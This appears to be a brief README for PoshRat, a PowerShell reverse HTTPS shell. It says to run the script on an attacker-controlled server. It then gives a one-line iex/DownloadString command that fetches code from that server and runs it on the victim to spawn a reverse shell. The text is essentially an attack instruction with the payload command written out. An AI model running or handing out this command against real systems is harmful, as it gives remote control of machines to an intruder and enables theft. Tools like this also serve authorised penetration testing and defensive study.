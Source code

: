 PoshRat
=======

PowerShell Reverse HTTPs Shell

1. Invoke PoshRat.ps1 On An Atacker Controlled Server
2. To Spawn The Reverse Shell Run

   iex (New-Object Net.WebClient).DownloadString("http://[ServerIP/connect")

Created By Casey Smith @subTee
